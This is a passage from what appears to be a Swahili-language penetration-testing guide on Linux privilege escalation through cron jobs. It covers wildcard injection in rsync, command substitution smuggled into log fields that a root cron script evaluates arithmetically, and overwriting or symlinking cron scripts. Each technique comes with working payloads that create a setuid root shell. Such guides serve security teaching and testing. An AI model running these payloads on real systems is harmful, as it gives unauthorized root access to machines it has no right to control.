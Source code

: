 Iwapo script inatekelezwa na root ina “**\***” ndani ya amri, unaweza kuitumia kufanya mambo yasiyotegemewa (kama privesc). Mfano:
```bash
rsync -a *.sh rsync://host.back/src/rbd #You can create a file called "-e sh myscript.sh" so the script will execute our script
```
**Ikiwa wildcard imewekwa mbele ya path kama** _**/some/path/\***_ **, haiko hatarini (hata** _**./\***_ **sio).**

Read the following page for more wildcard exploitation tricks:


{{#ref}}
wildcards-spare-tricks.md
{{#endref}}


### Bash arithmetic expansion injection in cron log parsers

Bash hufanya parameter expansion na command substitution kabla ya arithmetic evaluation katika ((...)), $((...)) na let. Ikiwa root cron/parser inasoma field za log zisizo salama na kuziingiza kwenye muktadha wa arithmetic, mshambuliaji anaweza kuingiza command substitution $(...) ambayo itaendeshwa kama root wakati cron inapokimbia.

- Kwanini inafanya kazi: In Bash, expansions occur in this order: parameter/variable expansion, command substitution, arithmetic expansion, then word splitting and pathname expansion. Kwa hivyo thamani kama `$(/bin/bash -c 'id > /tmp/pwn')0` kwanza inabadilishwa (ikiendesha amri), kisha `0` ya nambari inayobaki inatumiwa kwa arithmetic ili script iendelee bila makosa.

- Typical vulnerable pattern:
```bash
#!/bin/bash
# Example: parse a log and "sum" a count field coming from the log
while IFS=',' read -r ts user count rest; do
# count is untrusted if the log is attacker-controlled
(( total += count ))     # or: let "n=$count"
done < /var/www/app/log/application.log
```

- Utekelezaji: Pata maandishi yanayodhibitiwa na mshambuliaji yaliandikwe kwenye log inayochambuliwa ili uwanja unaoonekana kama nambari uwe na command substitution na uishe kwa tarakimu. Hakikisha amri yako haisababishi uchapishaji kwenye stdout (au uielekeze) ili arithmetic ibaki halali.
```bash
# Injected field value inside the log (e.g., via a crafted HTTP request that the app logs verbatim):
$(/bin/bash -c 'cp /bin/bash /tmp/sh; chmod +s /tmp/sh')0
# When the root cron parser evaluates (( total += count )), your command runs as root.
```

### Cron script overwriting and symlink

If you **can modify a cron script** executed by root, you can get a shell very easily:
```bash
echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' > </PATH/CRON/SCRIPT>
#Wait until it is executed
/tmp/bash -p
```
Ikiwa script inayotekelezwa na root inatumia **directory ambapo una ufikiaji kamili**, inaweza kuwa ya manufaa kufuta folder hiyo na **kuunda symlink folder kuelekea nyingine** inayohudumia script inayodhibitiwa na wewe
```bash
ln -d -s </PATH/TO/POINT> </PATH/CREATE/FOLDER>
```
### Jobs za cron zinazojirudia mara kwa mara
